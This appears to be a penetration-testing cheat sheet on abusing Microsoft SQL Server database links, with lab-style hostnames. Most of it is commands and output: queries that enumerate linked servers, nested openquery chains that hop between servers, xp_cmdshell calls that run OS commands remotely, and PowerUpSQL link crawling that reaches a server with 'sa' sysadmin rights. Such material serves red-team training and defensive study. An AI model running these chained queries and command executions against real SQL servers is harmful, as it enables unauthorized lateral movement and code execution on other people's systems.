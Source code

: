 #### SQL Commands

```powershell
# Search for database links
select * from master..sysservers

# Manually searching for Database Links
select * from openquery("<Server>",'select * from master..sysservers')

# Openquery queries can be chained to access links within links (nested links)
select * from openquery("dcorp-sql1",'select * from openquery("<Server>",''select * from master..sysservers'')')

# From the initial SQL server, OS commands can be executed using nested link queries
select * from openquery("dcorp-sql1",'select * from openquery("<Server>",''select * from openquery("eu-sql.eu.eurocorp.local",''''select@@version as version;exec master..xp_cmdshell "powershellwhoami)'''')'')')
```

### MSSQL - PowerupSQL exploit example

Search for accessible instances in current domain

```bash
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

ComputerName                           Instance                                    Status
------------                           --------                                    ------
mssql-srv.security.local             mssql-srv.security.local,1433                Accessible
Mgmtsrv01.security.local             mgmtsrv01.security.local,1433                Not Accessible
```

Run the `Get-SQLServerLinkCrawl` on an accessible instance.

```bash
Get-SQLServerLinkCrawl -Instance mssql-srv.security.local -Verbose


Version     : SQL Server 2017
Instance    : mssql-master-srv
CustomQuery :
Sysadmin    : 1
Path        : {mssql-srv, mssql-srv-eu, mssql-master-srv}
User        : sa
Links       :
```

From the results above the server `mssql-master-srv` is the enterprise level MSSSQL server running with "sa" privileges. The path field shows in order how this is accessible starting with `mssql-srv`. We can check for command execution specifying the first accessible instance in the path which, in this case is `mssql-srv`.

```
Get-SQLServerLinkCrawl -Instance "mssql-srv" -Query "exec master..xp_cmdshell 'whoami'"

Version     : SQL Server 2017
Instance    : mssql-master-srv
CustomQuery : {nt authority\network service, }
Sysadmin    : 1
Path        : {mssql-srv, mssql-srv-eu, mssql-master-srv}
User        : sa
Links       :
```
